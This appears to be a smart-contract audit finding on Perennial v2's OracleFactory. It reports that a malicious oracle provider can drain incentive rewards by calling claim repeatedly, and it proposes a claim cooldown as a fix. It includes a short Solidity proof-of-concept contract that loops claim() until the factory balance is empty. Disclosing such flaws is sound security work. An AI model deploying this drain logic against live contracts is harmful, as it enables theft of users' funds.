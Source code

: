 Witty Crimson Penguin

high

# Malicious Oracle Provider can drain all rewards
## Summary
Malicious Oracle Provider can claim all rewards  from the Provider Factory by spamming the `claim` function 
## Vulnerability Detail
A malicious keeper can drain the balance of the Provider Factory incentive token balance/allowance

```solidity
contract MaliciousOracleProviderFactory is IOracleProviderFactory {

    function claim(address factoryAddress) public {
        IOracleFactory temp = IOracleFactory(factoryAddress);
        temp.claim(temp.maxClaim());
    }

    function claimAll(address factoryAddress, Token token) public {
        IOracleFactory temp = IOracleFactory(factoryAddress);
        uint256 balanceBefore = token.balanceOf(address(this));
        while (token.balanceOf(factoryAddress) > 0) {
            temp.claim(temp.maxClaim());
        }
        uint256 balanceAfter = token.balanceOf(address(this));
        assert(balanceAfter > balanceBefore);
    }
}
```

## Impact
All funds belonging to the Provider Factory could be drained
## Code Snippet
https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/OracleFactory.sol#L90C5-L97C6

## Tool used

Manual Review

## Recommendation
Add a time interval with which rewards can be claimed, also removing the need to pass the amount parameter as the max claimable amount for a given period would allow the keeper to claim the predetermined amount of tokens.

```solidity
    function claim() external {
        if (!factories[IOracleProviderFactory(msg.sender)])
            revert OracleFactoryNotRegisteredError();
        if (claimTimes[msg.sender] > block.timestamp)
            revert CoolDownNotReached(claimTimes[msg.sender]);
        claimTimes[msg.sender] = block.timestamp + maxClaimPeriod;
        incentive.push(msg.sender, UFixed18Lib.from(maxClaim));
    }
```

Alternatively, I would suggest revising the rewards system; it's not quite clear how the tokenomics work. Or even better, I suggest using a streaming protocol like SabierV2 or Superfluid to avert the need for keepers to claim their rewards. Instead, these rewards can be streamed to them until they are unregistered or blacklisted from claiming any additional rewards.  Both have their drawbacks but I think the initial step would be to revise the rewards system 